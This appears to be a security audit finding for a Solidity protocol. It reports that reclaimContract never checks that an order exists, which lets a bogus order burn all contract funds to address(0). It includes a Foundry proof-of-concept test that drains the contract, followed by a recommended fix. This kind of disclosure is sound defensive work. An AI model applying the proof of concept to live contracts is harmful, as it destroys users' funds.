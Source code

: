 carrot

high

# Missing order validation in reclaimContract function

## Summary
Protocol doesn't verify if the passed order exists or is valid in the function reclaimContract. This means a bogus order can be sent which fulfills all the required conditions, and all tokens in the contract can be sent to address(0).

## Vulnerability Detail
In the function reclaimContract, the existence of the order is never verified. If no such order exists, the bull address will be set to `address(0)`, the default value of an empty mapping. The subsequent checks can be passed by setting `order.expiry = 0`. In the end, the `order.premium + order.collateral` amount will be sent to `address(0)`, draining the protocol and causing loss of user funds. Some tokens have a 0 address check, but weth and plenty others do not.

## Impact
High Impact since all funds can be sent to address(0) and made irrecoverable

## Code Snippet
Affected Code: https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L374-L411

Proof of concept of the attack
```solidity
function testAttack() public {
        // Fund the protocol, assume weth is from other running orders
        deal(address(weth), address(bvb), 5 ether);
        uint256 initBal = weth.balanceOf(address(bvb));

        // Create bogus order
        BvbProtocol.Order memory order = defaultOrder();
        order.expiry = 0;
        order.premium = initBal;
        order.collateral = 0;

        // Send bogus reclaim
        bvb.reclaimContract(order);

        // Assert
        uint256 zeroBal = weth.balanceOf(address(0));
        uint256 finalBal = weth.balanceOf(address(bvb));
        // Verify protocol balance is 0 even with a bogus, unmatched order
        assertEq(finalBal, 0);
        // Verify rest of the balance is sent to address(0)
        assertEq(initBal, zeroBal);
    }
```
## Tool used

Foundry

## Recommendation

Check existence of order by making sure bull address is not 0.

```solidity
    require(bull != address(0),"Zero Address cant be bull");
```